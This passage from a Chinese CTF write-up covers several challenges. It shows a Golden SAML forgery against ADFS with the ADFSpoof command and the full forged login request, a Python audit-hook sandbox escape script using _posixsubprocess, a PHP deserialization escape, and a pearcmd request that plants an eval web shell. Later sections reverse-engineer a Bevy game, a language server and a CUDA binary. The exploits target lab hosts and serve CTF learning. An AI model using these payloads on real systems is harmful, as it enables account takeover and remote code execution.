Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">$NameIdentifier</saml:NameIdentifier><saml:SubjectConfirmation><saml:ConfirmationMethod>urn:oasis:names:tc:SAML:1.0:cm:bearer</saml:ConfirmationMethod></saml:SubjectConfirmation></saml:Subject></saml:AuthenticationStatement><ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#" Id="placeholder"></ds:Signature></saml:Assertion></t:RequestedSecurityToken><t:TokenType>urn:oasis:names:tc:SAML:1.0:assertion</t:TokenType><t:RequestType>http://schemas.xmlsoap.org/ws/2005/02/trust/Issue</t:RequestType><t:KeyType>http://schemas.xmlsoap.org/ws/2005/05/identity/NoProofKey</t:KeyType></t:RequestSecurityTokenResponse>

```

执行如下命令，生成伪造的 SAML 令牌：

```
python3 ADFSpoof.py -b TKSKey.bin DKMkey.bin --server sts.offensive.local o365 --upn Administrator@offensive.local --objectguid {FF6A004D-334C-4D19-AFEB-3F4467F9CBCE}
```



现在只需使用伪造的 SAML 令牌以 Administrator 用户的身份登录 OA 发起联合身份验证。这可以通过使用 Burp Suite 的 Repeater 模块重放 Web 请求来实现：

```
POST / HTTP/1.1
Host: oa.offensive.local:8443
Content-Length: 7251
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Origin: https://sts.offensive.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://sts.offensive.local/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,ru;q=0.7,ja;q=0.6
Priority: u=0, i
Connection: close

wa=wsignin1.0&wresult=%3Ct%3ARequestSecurityTokenResponse%20xmlns%3At%3D%22http%3A//schemas.xmlsoap.org/ws/2005/02/trust%22%3E%3Ct%3ALifetime%3E%3Cwsu%3ACreated%20xmlns%3Awsu%3D%22http%3A//docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd%22%3E2025-02-06T10%3A09%3A52.000Z%3C/wsu%3ACreated%3E%3Cwsu%3AExpires%20xmlns%3Awsu%3D%22http%3A//docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd%22%3E2025-02-06T11%3A09%3A52.000Z%3C/wsu%3AExpires%3E%3C/t%3ALifetime%3E%3Cwsp%3AAppliesTo%20xmlns%3Awsp%3D%22http%3A//schemas.xmlsoap.org/ws/2004/09/policy%22%3E%3Cwsa%3AEndpointReference%20xmlns%3Awsa%3D%22http%3A//www.w3.org/2005/08/addressing%22%3E%3Cwsa%3AAddress%3Ehttps%3A//oa.offensive.local%3A8443/%3C/wsa%3AAddress%3E%3C/wsa%3AEndpointReference%3E%3C/wsp%3AAppliesTo%3E%3Ct%3ARequestedSecurityToken%3E%3Csaml%3AAssertion%20xmlns%3Asaml%3D%22urn%3Aoasis%3Anames%3Atc%3ASAML%3A1.0%3Aassertion%22%20MajorVersion%3D%221%22%20MinorVersion%3D%221%22%20AssertionID%3D%22_E89JCT%22%20Issuer%3D%22http%3A//sts.offensive.local/adfs/services/trust%22%20IssueInstant%3D%222025-02-06T10%3A09%3A52.000Z%22%3E%3Csaml%3AConditions%20NotBefore%3D%222025-02-06T10%3A09%3A52.000Z%22%20NotOnOrAfter%3D%222025-02-06T11%3A09%3A52.000Z%22%3E%3Csaml%3AAudienceRestrictionCondition%3E%3Csaml%3AAudience%3Ehttps%3A//oa.offensive.local%3A8443/%3C/saml%3AAudience%3E%3C/saml%3AAudienceRestrictionCondition%3E%3C/saml%3AConditions%3E%3Csaml%3AAttributeStatement%3E%3Csaml%3ASubject%3E%3Csaml%3ANameIdentifier%20Format%3D%22urn%3Aoasis%3Anames%3Atc%3ASAML%3A1.1%3Anameid-format%3Aunspecified%22%3EJndaBU4kdE2MsdOj93uRZQ%3D%3D%3C/saml%3ANameIdentifier%3E%3Csaml%3ASubjectConfirmation%3E%3Csaml%3AConfirmationMethod%3Eurn%3Aoasis%3Anames%3Atc%3ASAML%3A1.0%3Acm%3Abearer%3C/saml%3AConfirmationMethod%3E%3C/saml%3ASubjectConfirmation%3E%3C/saml%3ASubject%3E%3Csaml%3AAttribute%20AttributeName%3D%22upn%22%20AttributeNamespace%3D%22http%3A//schemas.xmlsoap.org/ws/2005/05/identity/claims%22%3E%3Csaml%3AAttributeValue%3EAdministrator%40offensive.local%3C/saml%3AAttributeValue%3E%3C/saml%3AAttribute%3E%3Csaml%3AAttribute%20AttributeName%3D%22primarysid%22%20AttributeNamespace%3D%22http%3A//schemas.microsoft.com/ws/2008/06/identity/claims%22%3E%3Csaml%3AAttributeValue%3ES-1-5-21-774119550-1432414505-3505898924-1155%3C/saml%3AAttributeValue%3E%3C/saml%3AAttribute%3E%3Csaml%3AAttribute%20AttributeName%3D%22groupsid%22%20AttributeNamespace%3D%22http%3A//schemas.microsoft.com/ws/2008/06/identity/claims%22%3E%3Csaml%3AAttributeValue%3ES-1-5-21-774119550-1432414505-3505898924-513%3C/saml%3AAttributeValue%3E%3C/saml%3AAttribute%3E%3C/saml%3AAttributeStatement%3E%3Csaml%3AAuthenticationStatement%20AuthenticationMethod%3D%22urn%3Aoasis%3Anames%3Atc%3ASAML%3A2.0%3Aac%3Aclasses%3APasswordProtectedTransport%22%20AuthenticationInstant%3D%222025-02-06T10%3A09%3A52.000Z%22%3E%3Csaml%3ASubject%3E%3Csaml%3ANameIdentifier%20Format%3D%22urn%3Aoasis%3Anames%3Atc%3ASAML%3A1.1%3Anameid-format%3Aunspecified%22%3EJndaBU4kdE2MsdOj93uRZQ%3D%3D%3C/saml%3ANameIdentifier%3E%3Csaml%3ASubjectConfirmation%3E%3Csaml%3AConfirmationMethod%3Eurn%3Aoasis%3Anames%3Atc%3ASAML%3A1.0%3Acm%3Abearer%3C/saml%3AConfirmationMethod%3E%3C/saml%3ASubjectConfirmation%3E%3C/saml%3ASubject%3E%3C/saml%3AAuthenticationStatement%3E%3Cds%3ASignature%20xmlns%3Ads%3D%22http%3A//www.w3.org/2000/09/xmldsig%23%22%3E%3Cds%3ASignedInfo%3E%3Cds%3ACanonicalizationMethod%20Algorithm%3D%22http%3A//www.w3.org/2001/10/xml-exc-c14n%23%22/%3E%3Cds%3ASignatureMethod%20Algorithm%3D%22http%3A//www.w3.org/2001/04/xmldsig-more%23rsa-sha256%22/%3E%3Cds%3AReference%20URI%3D%22%23_E89JCT%22%3E%3Cds%3ATransforms%3E%3Cds%3ATransform%20Algorithm%3D%22http%3A//www.w3.org/2000/09/xmldsig%23enveloped-signature%22/%3E%3Cds%3ATransform%20Algorithm%3D%22http%3A//www.w3.org/2001/10/xml-exc-c14n%23%22/%3E%3C/ds%3ATransforms%3E%3Cds%3ADigestMethod%20Algorithm%3D%22http%3A//www.w3.org/2001/04/xmlenc%23sha256%22/%3E%3Cds%3ADigestValue%3E%2BlPB8/AxmtxrEJ4QhXPaH/E8hkysQ0HzE8jtf3RqcAU%3D%3C/ds%3ADigestValue%3E%3C/ds%3AReference%3E%3C/ds%3ASignedInfo%3E%3Cds%3ASignatureValue%3EQYZo80E22nLIKpetve4SdeStlvWQhLwSgModRrnL3rM/cWEC9uWHqJC0GsjOF8TBGB0Ucr/dLy9YYne/8zXdIZDqDnw6DhlvAsurTDHYwfjnJH5NOVNpguj8hseqgh/GM35u%2BRG7rnTwpFk8/GNj18fhDzDEcB5wj%2B2NlDHSjmFTivr7tAf2IQxc%2B0BIOpBag6Q/88OtKlfUbc8UrkEY2ym29EKkq27dLwx9ZML4hBd8FdHPx%2BzqNcZakECbIH5QvjeofwL35tTfiblRwGMjmMV82BEBxKBIG9r8%2BN8p1X535Wm/hwLSc1QeyXu5OnULLDZuTExkvaZk/MILRIuoQysTsZMZG6iFB6w7VCaYGNn0fJ41AFIIG9IZ/nO8Ciy7ND4PieMG913Yqx5YFv3JH8gLS/XDbDYYJSc/vqr1qvCd6KeVaL%2B9fMpCzRsxk8Hl7kNBML60/qNw8MT30QVVvZt030ALlXLJHU0oqRJ7fHsIQTTsgQq4Nc8pjPcqWrRjrAvUfFNoEeeRRmoawWyWKWQkKaJ1/zqQN8OouRERO2XybOzLIfw7RxP6TesIwcO2pzENSRUPbY9UYcSv8hQ64m8722aL/2/tZi7FMNYZqQ7I5REG7nl7XZ6DwWcG0DhyoYj5EYmn3Ep4mD3RVPxP80K1qhSNVZ7hcADNx5NZ/yU%3D%3C/ds%3ASignatureValue%3E%3Cds%3AKeyInfo%3E%3Cds%3AX509Data%3E%3Cds%3AX509Certificate%3EMIIE4jCCAsqgAwIBAgIQGAiAx/I8VbNIkXdAHHQuxzANBgkqhkiG9w0BAQsFADAtMSswKQYDVQQDEyJBREZTIFNpZ25pbmcgLSBzdHMub2ZmZW5zaXZlLmxvY2FsMB4XDTI1MDIwNTEwMDY1OVoXDTI2MDIwNTEwMDY1OVowLTErMCkGA1UEAxMiQURGUyBTaWduaW5nIC0gc3RzLm9mZmVuc2l2ZS5sb2NhbDCCAiIwDQYJKoZIhvcNAQEBBQADggIPADCCAgoCggIBAM8cGVVUOAf9Bg0wn1jB99FqqbYVDzf/pWdfPh4Nq4XduRNZFmlNBgt7iQfBfvfunTJIjIV9c4y81GMPhKBYGLdaZbOe9zzP3vcCCuGKTgiEAkFEnJDmGirufrC1zDgnirZuBzW04hJkJJM5msQdhe6ZMabjNubCJpIv1tt%2Bz/tSgrIiWswazaFkbecKmLC4t8j6%2BXVNBD62SbukHd57SvWLXA9%2BGoAA3nE67TsrSETClWqXi1wAeULscN6FBsdNAg6j%2BiTjSOEtjSf6MzrSL68qR5ptDYp/zPnjMdrcivLJ%2BFad4c3OhR2c100M5MwjlIJkrQTroNyJCIsquG1EE7/kGYS48DvyBSreeTW/M0ARt7QHhrf3uVK0W1jlV/0uZ0MEeNscVFE05%2By6uhX88eHbKZoOHlreUmXbSuYvKWnGGYthG74MKkAZGzFS1Cf3fpAQGs3fmVJhVf%2B55PA5b2eT8ggg/5ivYZSZjs/bWgZkj9bzbDwF1EdNwa0J1e3zlLAMWz%2B2KkoP9yegUsn5HLOtTlh1xfC/dZK5J2GGAzZTfvwEr3XACXOaoV2v9qaZeX9i42gkyMvecZRxc0vBPSVl6rOdqf7zZF78arUpHWxUu7XpG8r2zk0vwoCXOMmOzHZPYZsenjjwDU58KzqBzmVt4vVlAP9ASFJYXMGvQ3UxAgMBAAEwDQYJKoZIhvcNAQELBQADggIBAD7bWNpTiYr3j2jYPU8aN2YyhAUW165m8r9o3ekfyp5z%2BkPQU3PG5DyokHHkMs4iZRIFOR0B8TEALd3YbLVPMLkZCBJFOg2hZosjnWSVw0ddl32WKdlgpmH/e7aE5G6Bjech/jUBWc2i4wp1LQL4i3ksOxKuJKUrEyCQ2h1tDoX6h/0vhBaoBWnzvCpIgiDBFHe8/VXxIaxkKfftvYU9zWsz68jtHjDAuJrxYyp4V2JmFYA9TE1pgj9kVFfFSC98z8BVHgkvQzF98P8OreytVk9BmGbGMlopm8PoR75CRDsiqpCC1GkchPmDb5efx9toKBuL24jM8I%2BOigsvxDon8MbjHuOOkKZUlmo8CIyamXl9A1joMZZ4VxmRV7nOCjotvJF0KWa0gtknhkU0dIhK8BAq17urBX0s2Ijs2AoPyg27PcI%2BnkG%2BtZ9uMHUX8njvL2/gGdzkcyHHP2muBsFQzCLEmeOoaHYugE6ciGY6OjX6ba8bq/Q2ZZzRUB3mMnSumUKGMfrEBFr0EhFj31efCE2lngNSvHHP1XLSigWV0qDM5a4RARPpWq0ApNLwRQ73xr9nWOV2XHQDQtfK4HDJcpBtkj5IubBP6q9WXe2o7RQOLhAAssPiv6vbgdWSGMRfeF7Su6YperB7rQYp4xfA8YoU0Vp%2BJnd1dgm8swxqZRZk%3C/ds%3AX509Certificate%3E%3C/ds%3AX509Data%3E%3C/ds%3AKeyInfo%3E%3C/ds%3ASignature%3E%3C/saml%3AAssertion%3E%3C/t%3ARequestedSecurityToken%3E%3Ct%3ATokenType%3Eurn%3Aoasis%3Anames%3Atc%3ASAML%3A1.0%3Aassertion%3C/t%3ATokenType%3E%3Ct%3ARequestType%3Ehttp%3A//schemas.xmlsoap.org/ws/2005/02/trust/Issue%3C/t%3ARequestType%3E%3Ct%3AKeyType%3Ehttp%3A//schemas.xmlsoap.org/ws/2005/05/identity/NoProofKey%3C/t%3AKeyType%3E%3C/t%3ARequestSecurityTokenResponse%3E&wctx=WsFedOwinState%3DhZlKyeI3SiKiu80v8RJhPMZLX478XroLMrffQrK4OltS5uMh9-5hRaPt8_WBJNBSdvnL3Dj9VyihWODKjy4w-kW1s9BWz5K5MT0n8KEyU0JjRO-vBpr2MjgtvqOcVEg_axJvlX5g0CjXF8J8Ibn_fA
```



登录成功后，可以使用 “Show response in browser” 功能在浏览器中查看此请求的响应。一旦完成，我们将成功进入到 OA 系统：



在“公司机密”处点击“查看更多”，即可得到flag：



## ezoj

打开题目的web页面后是一个OJ，OJ里面有五个题目，页面最下面提示了`/source`查看源码。

在`/source`中可以发现，该OJ在执行python代码时，会使用`audithook`限制代码的行为。限制方法为白名单，只允许`["import","time.sleep","builtins.input","builtins.input/result"]`的事件执行。

先尝试获取python版本，发现OJ会将程序的退出码回显给用户，可以利用这个回显信息。

获取了`sys.version_info`的三个值后，可以得到python版本`3.12.9`。

根据白名单的内容，允许导入模块，但是导入其他模块需要用到compile和exec，因此只能导入内部模块。

在内部模块中发现了[\_posixsubprocess](https://github.com/python/cpython/blob/3.12/Modules/_posixsubprocess.c)，该模块能够`fork_exec`执行任意命令同时内部没有触发审计。

由于题目不出网而且也无法直接回显，因此需要把执行程序的标准输出读出来。在源码中可以发现c2pwrite参数会重定向到子进程的标准输出

```
    if (c2pwrite == 1) {
        if (_Py_set_inheritable_async_safe(c2pwrite, 1, NULL) < 0)
            goto error;
    }
    else if (c2pwrite != -1)
        POSIX_CALL(dup2(c2pwrite, 1));  /* stdout */
```

因此使用下面的脚本，执行命令并将结果写入到退出码中。

```
import requests

URL = "http://10.253.253.1/api/submit"
CODE_TEMPLATE = """
import _posixsubprocess
import os
import time
import sys

std_pipe = os.pipe()
err_pipe = os.pipe()

_posixsubprocess.fork_exec(
    (b"/bin/bash",b"-c",b"ls /"),
    [b"/bin/bash"],
    True,
    (),
    None,
    None,
    -1,
    -1,
    -1,
    std_pipe[1], #c2pwrite
    -1,
    -1,
    *(err_pipe),
    False,
    False,
    False,
    None,
    None,
    None,
    -1,
    None,
    False,
)
time.sleep(0.1)
content = os.read(std_pipe[0],1024)
content_len = len(content)

if {loc} < content_len:
    sys.exit(content[{loc}])
else:
    sys.exit(255)
"""

command="ls /"
received = ""

for i in range(254):
    code = CODE_TEMPLATE.format(loc=i,command=command)
    data = {"problem_id":0,"code":code}
    resp = requests.post(URL,json=data)
    resp_data = resp.json()
    assert(resp_data["status"] == "RE")
    ret_loc = resp_data["message"].find("ret=")
    ret_code = resp_data["message"][ret_loc+4:]
    if ret_code == "255":
        break
    received += chr(int(ret_code))
    print(received)

```

由于`os.read`可能会将程序卡住，因此在`os.read`之前先sleep一下。最后在根目录找到flag文件，直接读取获得flag。

## 打卡OK

> 偷懒用了开源镜像导致root弱口令非预期十分抱歉

～泄漏，发现adminer\_481.php，登陆后修改用户密码登陆  
MD5 ("12345asdasdasdasdad") = 5d710c8773a7415726cd25b3ffebfa3e  
5d710c8773a7415726cd25b3ffebfa3e:12345 //asdasdasdasdad

审计代码，利用\绕过date函数反序列化逃逸

```
POST /index.php?debug_buka=%5c%31%5c%32%5c%33%5c%78%5c%78%5c%78%5c%78%5c%22%5c%3b%5c%73%5c%3a%5c%34%5c%3a%5c%22%5c%74%5c%69%5c%6d%5c%65%5c%22%5c%3b%5c%73%5c%3a%5c%32%5c%3a%5c%22%5c%31%5c%32%5c%22%5c%3b%5c%73%5c%3a%5c%31%5c%30%5c%3a%5c%22%5c%62%5c%61%5c%63%5c%6b%5c%67%5c%72%5c%6f%5c%75%5c%6e%5c%64%5c%22%5c%3b%5c%73%5c%3a%5c%34%5c%33%5c%3a%5c%22%5c%2e%5c%2e%5c%2f%5c%2e%5c%2e%5c%2f%5c%2e%5c%2e%5c%2f%5c%2e%5c%2e%5c%2f%5c%2e%5c%2e%5c%2f%5c%2e%5c%2e%5c%2f%5c%75%5c%73%5c%72%5c%2f%5c%6c%5c%6f%5c%63%5c%61%5c%6c%5c%2f%5c%6c%5c%69%5c%62%5c%2f%5c%70%5c%68%5c%70%5c%2f%5c%70%5c%65%5c%61%5c%72%5c%63%5c%6d%5c%64%22%5c%3b%5c%7d HTTP/1.1
Host: 192.168.10.100:50100
Content-Length: 53
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Origin: http://192.168.10.100:50100
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fpd8m225h699b4o6stpja3vtcc; adminer_version=4.8.1
x-forwarded-for: localhost
Connection: close

reason=%3C%3Fphp+exit%3B%2F%2F%3C%3Fphp+exit%3B%2F%2F
```

然后pearcmd即可

```
POST /index.php?check&+config-create+/<?=@eval($_GET[1]);?>+/var/www/html/hello.php HTTP/1.1
Host: 172.16.2.72:5898
Content-Length: 7
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Origin: http://172.16.2.72:5398
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.2.72:5398/index.php?check/?+config-create+/%3C?=phpinfo()?%3E+/var/www/html/hello.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=inns5m7uhe0i3d9d19dtgcmsj2; adminer_version=4.8.1
x-forwarded-for: localhost
Connection: close

check=1
```

# Re

## babygame

虽然后面仔细研究了一下没有符号应该也能做，但确实比较折磨，为了不浪费大家时间还是给了符号。

要找到这题的验证点，首先需要明白一下bevy的基础逻辑，通过向app注册诺干systems，并指定其运行的实际，在游戏开始时就会在对应的时刻调用对应的函数，比如:

fn main() { App::new().add\_systems(Update, hello\_world\_system).run(); }

fn hello\_world\_system() { println!("hello world"); }

就会在Update的时候调用hello\_world，而编译出来可以发现，这里会把hello\_world\_system包装成一个虚表，实际调用的是一个叫run\_unsafe的方法。

回到这道题，通过寻找一些特征，能找到这道题的原型 <https://github.com/PraxTube/tsumi.git>

通过阅读源码可以大致理清整个处理流：

在src/aspect/combiner.rs中会处理用户选择的两个元素的合并，其中check\_all\_aspects\_full是触发下一阶段的函数，原始逻辑为当垫子上的元素充满时会触发src/world/map/bed.rs中的逻辑

在函数spawn\_bed中能看到当all\_sockets\_full为true时，会出现一张床。

用户选择床之后会产生事件PlayerWentToBed，最后会调用到spawn\_ima\_final\_dialogue，这里会读取assets/dialogue/others.yarn，最后再显示完对话后触发<<game\_over>>

game\_over的触发是在src/ui/dialogue/runner.rs中的spawn\_runner函数注册的。

当然，如果这个题没有找到源码，一个个通过调试分析system当然也能做。

整套流程大致如上，可能有一些遗漏的细节。所以这里我们也可以顺着源码的这套逻辑找修改的地方：

AspectCombinerPlugin的虚表在141034EF0处，可以找到其build方法，从这里可以找到select\_combined\_aspect的虚表在off\_1410558C8 处，其run\_unsafe方法在0140048612处，为什么我说可以不用符号也能找呢，可以发现在注册的时候其实是传递了alictf::aspect::combiner::select\_combined\_aspect这个字符串的，可以通过这个字符串找到注册的地方，再通过特定偏移找到run\_unsafe。寻找其他地方的方法不再赘述。

可以找到大致修改过的流程如下：

is\_socket\_combination\_possible（已经被内联）改成了输入20个数字之后直接不让选择

每次输入完触发的spawn\_dialogue\_runner中会收集输入的数字，并会和固定数字进行运算。

check\_all\_aspects\_full会在输入完毕后进行一次xxtea

highlight\_and\_select\_bed会在选择bed时进行一次xxtea

determine\_ending时会进行一次xxtea和异或，并和最终的结果进行比较，来决定输出的是正确还是错误的结果。这里还有一个判断，一个是输入的时间不能太短或者太长，第二个是你需要真的输入一定的次数才行，要不然会直接判负。详细的算法可以参考：

```
import random
from pwn import u32, p8
from ctypes import c_uint32

flags = [
    93,
    34,
    19,
    34,
    55,
    54,
    77,
    77,
    69,
    96,
    42,
    94,
    71,
    91,
    38,
    1,
    50,
    54,
    60,
    81,
    62,
    31,
    27,
    68,
    9,
    96,
    29,
    72,
    75,
    90,
    14,
    9,
    91,
    22,
    93,
    95,
    67,
    16,
    82,
    21,
    79,
    42,
    96,
    85,
    0,
    95,
    52,
    11,
    44,
    85,
    79,
    86,
    21,
    52,
    51,
    31,
    54,
    20,
    26,
    11,
    97,
    49,
    23,
    65,
]


def next_random(i):
    j = 0
    j = i * 1664525 + 1013904223
    j ^= j >> 16
    j = j * 1664525 + 1013904223
    j ^= j >> 16

    return j & 0xFFFFFFFF 


def calc_res(input, i):
    xor1 = i & 0xFF
    xor2 = (i >> 8) & 0xFF
    xor3 = (i >> 16) & 0xFF
    xor4 = (i >> 24) & 0xFF

    input ^= xor1
    input += xor2
    input ^= xor3
    input += xor4

    return input & 0xFF 


def de_calc_res(input, i):
    xor1 = i & 0xFF
    xor2 = (i >> 8) & 0xFF
    xor3 = (i >> 16) & 0xFF
    xor4 = (i >> 24) & 0xFF

    input -= xor4
    input ^= xor3
    input -= xor2
    input ^= xor1

    return input & 0xFF 


def enc1(flags):
    status = 0
    res = []
    for i in range(len(flags)):
        status = next_random(status)
        # print(status)
        res.append(calc_res(flags[i], status))
    return res


def dec1(flags):
    status = 0
    res = []
    for i in range(len(flags)):
        status = next_random(status)
        res.append(de_calc_res(flags[i], status))
    return res


en1 = enc1(flags)
print("enc1", en1)
assert dec1(en1) == flags

en1 = b"".join(p8(i) for i in en1)

en1_b = []
for i in range(16):
    en1_b.append(u32(en1[i * 4 : i * 4 + 4]))

print("en1_b", en1_b)


def MX(z, y, total, key, p, e):
    temp1 = (z.value >> 5 ^ y.value << 2) + (y.value >> 3 ^ z.value << 4)
    temp2 = (total.value ^ y.value) + (key[(p & 3) ^ e.value] ^ z.value)

    return c_uint32(temp1 ^ temp2)


def encrypt(n, v, key, delta=0x9E3779B9):
    delta = delta
    rounds = 6 + 52 // n

    total = c_uint32(0)
    z = c_uint32(v[n - 1])
    e = c_uint32(0)

    while rounds > 0:
        total.value += delta
        e.value = (total.value >> 2) & 3
        for p in range(n - 1):
            y = c_uint32(v[p + 1])
            v[p] = c_uint32(v[p] + MX(z, y, total, key, p, e).value).value
            z.value = v[p]
        y = c_uint32(v[0])
        v[n - 1] = c_uint32(v[n - 1] + MX(z, y, total, key, n - 1, e).value).value
        z.value = v[n - 1]
        rounds -= 1

    return v


def decrypt(n, v, key, delta=0x9E3779B9):
    delta = delta
    rounds = 6 + 52 // n

    total = c_uint32(rounds * delta)
    y = c_uint32(v[0])
    e = c_uint32(0)

    while rounds > 0:
        e.value = (total.value >> 2) & 3
        for p in range(n - 1, 0, -1):
            z = c_uint32(v[p - 1])
            v[p] = c_uint32((v[p] - MX(z, y, total, key, p, e).value)).value
            y.value = v[p]
        z = c_uint32(v[n - 1])
        v[0] = c_uint32(v[0] - MX(z, y, total, key, 0, e).value).value
        y.value = v[0]
        total.value -= delta
        rounds -= 1

    return v


def encrypt_xor(n, v, key, delta=0x98D846DC):
    delta = delta

    for i in range(len(v)):
        v[i] ^= 0x42E2B468

    rounds = 6 + 52 // n

    total = c_uint32(0)
    z = c_uint32(v[n - 1])
    e = c_uint32(0)

    while rounds > 0:
        total.value += delta
        e.value = (total.value >> 2) & 3
        for p in range(n - 1):
            y = c_uint32(v[p + 1])
            v[p] = c_uint32(v[p] + MX(z, y, total, key, p, e).value).value
            z.value = v[p]
        y = c_uint32(v[0])
        v[n - 1] = c_uint32(v[n - 1] + MX(z, y, total, key, n - 1, e).value).value
        z.value = v[n - 1]
        rounds -= 1
    for i in range(len(v)):
        v[i] ^= 0x71F28B88

    return v


def decrypt_xor(n, v, key, delta=0x98D846DC):
    delta = delta

    for i in range(len(v)):
        v[i] ^= 0x71F28B88

    rounds = 6 + 52 // n

    total = c_uint32(0)
    z = c_uint32(v[n - 1])
    e = c_uint32(0)

    while rounds > 0:
        total.value += delta
        e.value = (total.value >> 2) & 3
        for p in range(n - 1):
            y = c_uint32(v[p + 1])
            v[p] = c_uint32(v[p] + MX(z, y, total, key, p, e).value).value
            z.value = v[p]
        y = c_uint32(v[0])
        v[n - 1] = c_uint32(v[n - 1] + MX(z, y, total, key, n - 1, e).value).value
        z.value = v[n - 1]
        rounds -= 1

    for i in range(len(v)):
        v[i] ^= 0x42E2B468
    return v


d1 = 0x6BC6121D
k1 = [0xAF657662, 0xFC6F144B, 0x22AB2B6C, 0x367D2DCB]

en2 = encrypt(len(en1_b), en1_b, k1, d1)
# assert decrypt(len(en2) , en2, k1, d1) == en1_b
print("en2", en2)

d2 = 0xB72908F9
k2 = [0x9E51E580, 0xF4496000, 0x64168EED, 0x496E55BF]
en3 = encrypt(len(en2), en2, k2, d2)
# assert decrypt(len(en3) , en3, k2, d2) == en2
print("en3", en3)


k3 = [0x41661F49, 0xDFC12FCF, 0x1FE0F1A2, 0x71168786]
k4 = encrypt_xor(len(en3), en3, k3)
print(k4)
assert decrypt_xor(len(k4), k4, k3) == en3
```

## flag-LS

题目实现了一个.flag文件的Language Server Extension，用户输入时Language Server会对当前编辑器内的内容分别使用base58 encode、前后翻转、凯撒密码进行处理，凯撒密码使用的偏移是从13开始，每次从`textDocument/completion`调用都会offset + 1。之后将处理后的结果及结果的md5第一字节进行拼接，然后通过`textDocument/completion`返回给编辑器。用户必须选择一个补全项，否则下次输入会随机选择一个算法将上次输入后编辑器的内容加密，然后通过`workspace/applyEdit`强制修改编辑器内容。Language Server会记录用户的所有输入，并通过 `textDocument/publishDiagnostics` 返回当前所有输入及 flag 的检查结果等信息。Language Server会记录用户的所有输入，并通过 `textDocument/publishDiagnostics` 返回当前所有输入及 flag 的检查结果等信息。

Language Server是一个exe文件，使用go 1.23编译，编译时对package paths等信息进行混淆，但保留了部分方法名，可以根据方法名快速找到对应的handler。Language Server只允许打开input.flag这一个文件，否则会直接exit，并且启动时会检查父进程是否为vscode("code.exe")，检查不通过也会exit，可以通过patch绕过这些检查。

my.flag是一个加密后的flag，解密即可得到flag。解密时由于凯撒密码最后使用的偏移量未知，所以需要爆破得到。解密时尝试三种算法分别解密，然后根据结果及结果的md5第一个字符来验证当前解密是否正确，最终逐字节解密合并得到flag。

解密脚本：

```
data = b""

import hashlib
import base58

def verify(content, expected_hash):
    m = hashlib.md5()
    m.update(content)
    return m.hexdigest()[0] == chr(expected_hash)

def decode_base58(content):
    try:
        return base58.b58decode(content)
    except:
        return None
def decrypt_caesar(input_str, offset):
    result = []
    for char in input_str:
        if ord('a') <= char <= ord('z'):
            decrypted = chr(((char - ord('a') - offset) % 26) + ord('a'))
        elif ord('A') <= char <= ord('Z'):
            decrypted = chr(((char - ord('A') - offset) % 26) + ord('A'))
        elif ord('0') <= char <= ord('9'):
            decrypted = chr(((char - ord('0') - offset) % 10) + ord('0'))
        else:
            decrypted = chr(char)
        result.append(decrypted)
    return ''.join(result).encode()

def reverse_string(content):
    return content[::-1]

def search(data, depth, caesar_offset, current_flag):
    if depth == 0:
        print(f"{current_flag[::-1]}")
        return
    
    current_hash = data[-1]
    current_content = data[:-1]
    
    if not verify(current_content, current_hash):
        return
    
    base58_result = decode_base58(current_content)
    if base58_result:
        search(base58_result[:-1], depth - 1, caesar_offset - 1, current_flag + chr(base58_result[-1]))
    
    reversed_result = reverse_string(current_content)
    search(reversed_result[:-1], depth - 1, caesar_offset - 1, current_flag + chr(reversed_result[-1]))
    
    caesar_result = decrypt_caesar(current_content, caesar_offset)
    search(caesar_result[:-1], depth - 1, caesar_offset - 1, current_flag + chr(caesar_result[-1]))

for offset in range(13 + 47): 
    search(data, 47, offset, "")
```

## easy-cuda-rev

最近，受到 DeepSeek 直接使用 PTX 汇编编写优化部分 cuda 代码的启发，设计了一道简单的 cuda 逆向题目，让选手学习 PTX 汇编，遥遥领先！

选手需要了解一些 cuda 的基本编程模式（并行计算编程），例如 cuda 核函数、gird、block、threads 、block 同步。学习并行编程与传统编程模型的差异。

cuda 逆向需要的一些二进制工具，主要以 cuda 开发包提供的 binutils 为主。

逆向反汇编 easy\_cuda 程序

```
cuobjdump easy_cuda -sass -ptx
```

根据官方指令手册以及自己编译的 CUDA 程序，对比在短时间内快速学习 PTX 汇编。同时，选手也可以借助 LLMs 辅助理解 PTX 汇编。

题目设计了一个简单的分组算法，分组长度为 256 字节，算法分为了 6 个加密过程。

